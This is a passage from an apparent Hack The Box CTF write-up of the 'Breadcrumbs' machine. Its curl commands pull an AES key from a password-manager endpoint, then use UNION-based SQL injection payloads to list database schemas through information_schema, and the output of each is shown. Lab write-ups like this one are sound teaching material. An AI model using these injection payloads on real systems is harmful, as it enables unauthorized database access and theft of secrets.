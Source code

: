 ```bash
    string(16) "k19D193j.<19391("
  }
}
```

Let's now do that manually using curl.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl http://passmanager.htb:1234/index.php -d "method=select&username=administrator&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Yeah, it definitely works!

## SQLi

Let's try some basic SQLi here.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl 'http://passmanager.htb:1234/index.php' -d "method=select&username=administ'union select 'SQLi works fine xD'-- -rator&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(18) "SQLi works fine xD"
  }
}
```
We'll use [`information_schema`](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) to dive into database.

We first look at the databases using `information_schema`'s `schemata` table.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl 'http://passmanager.htb:1234/index.php' -d "method=select&username=administ'union select schema_name from information_schema.schemata-- -rator&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(18) "information_schema"
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(5) "bread"
  }
}
```
